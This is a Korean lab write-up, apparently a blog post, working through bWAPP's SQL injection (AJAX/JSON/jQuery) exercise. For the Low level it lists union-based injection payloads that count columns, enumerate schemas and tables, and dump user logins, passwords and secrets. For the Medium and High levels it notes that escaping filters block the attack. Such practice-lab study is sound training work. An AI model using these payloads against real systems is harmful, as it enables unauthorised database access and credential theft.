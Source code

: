 ```yaml
---
layout: single
title: (bWAPP)SQL Injection (AJAX/JSON/jQuery)
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/sqli-ajax-archive/sqli-ajax/image.png)
- 검색창에 임의의 문자를 주고 전송하는 방식이 아닌 문자열 입력시 즉시 반영되는 AJAX 형태의 검색창이 존재
> Ajax는 비동기식 javascript, XML을 나타내며, 서버와의 통신에서 Refresh 없이 요청에 대한 리소스가 출력 되거나, 즉각적인 반을을 일으킨다.

![그림 1-2](/assets/image/bwapp/injection/sqli-ajax-archive/sqli-ajax/image2.png)

- '(싱글 쿼터) 를 통한 Error는 발생하지 않음.
- SQL Injection의 취약 유/무는 '와 함께 조건문 삽입을 통해 확인

```sql
' order by 8--
```

- 컬럼 수를 파악했다.
![그림 1-3](/assets/image/bwapp/injection/sqli-ajax-archive/sqli-ajax/image3.png)

- 이후 동일하게 출력 포지션, 데이터베이스, 테이블, 컬럼순으로 파악해 나갔다.

```sql
1' union select 1,schema_name,3,4,5,6,7 from information_schema.schemata--
```

```sql
1' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema='bWAPP'--
```

```sql
1' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema='bWAPP'--
```

```sql
1' union select 1,concat(id,0x3a,login),concat(password,0x3a,secret),4,admin,6,7 from bWAPP.users--
```

![그림 1-4](/assets/image/bwapp/injection/sqli-ajax-archive/sqli-ajax/image4.png)

- 성공적으로 데이터를 추출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.